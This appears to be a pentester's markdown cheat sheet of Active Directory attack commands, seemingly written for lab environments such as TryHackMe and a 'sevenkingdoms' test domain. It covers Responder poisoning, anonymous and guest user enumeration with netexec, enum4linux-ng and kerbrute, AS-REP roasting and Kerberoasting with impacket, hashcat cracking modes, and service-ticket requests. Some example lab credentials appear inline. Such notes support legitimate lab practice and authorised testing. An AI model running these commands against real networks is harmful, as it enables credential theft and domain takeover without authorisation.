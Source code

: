 ## Responder Analyze Mode 
```
sudo responder -I tun0 -A -v
```

## Find Users
```
ridenum <ip> 0 10000 guest ""
enum4linux-ng -A <ip> -u "" -p ""
enum4linux-ng -A <ip> -u "guest" -p ""
enum4linux-ng -A <ip> -u "anonymous" -p ""
netexec smb <IP> -u anonymous -p "" --rid-brute 10000
netexec smb <IP> -u guest -p "" --rid-brute 10000
netexec smb <IP> -u "" -p "" --rid-brute 10000
netexec ldap <IP> -u '' -p '' --password-not-required --admin-count --users --groups   (also try with guest and anonymous)
netexec ldap <IP> -u '' -p '' -M get-desc-users
kerbrute userenum --dc <dc_ip> /home/kali/THM/AD/userlist.txt -d <domain>
```
- LDAPsearch
- rpcclient enumdomusers (guest,anonymous,blank)
- Check websites for usernames

## ASREP
- Try with known users and creds later
```
GetNPUsers.py -dc-ip <IP> -no-pass -usersfile <userfile> <domain>/
impacket-GetNPUsers -request -dc-ip <ip> -usersfile <userfile> <domain>/
hashcat -m 18200 <hash> <wordlist>
```

## Kerberoasting
```
Get-UserSPNs.py <domain>/<user>:<password> -dc-ip <ip> -request
impacket-GetUserSPNs NORTH.SEVENKINGDOMS.LOCAL/jon.snow:iknownothing -dc-ip 192.168.56.11 -request
hashcat -m 13100 <hash> <wordlist>
```

## Pass the Ticket with SPN
```
Get-NetUser -SPN | select samaccountname, serviceprincipalname (powerview)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'any_SPN_here'

OR 

impacket-getST -spn CIFS/winterfell.north.sevenkingdoms.local north/robb.stark:sexywolfy -dc-ip 192.168.56.11
```
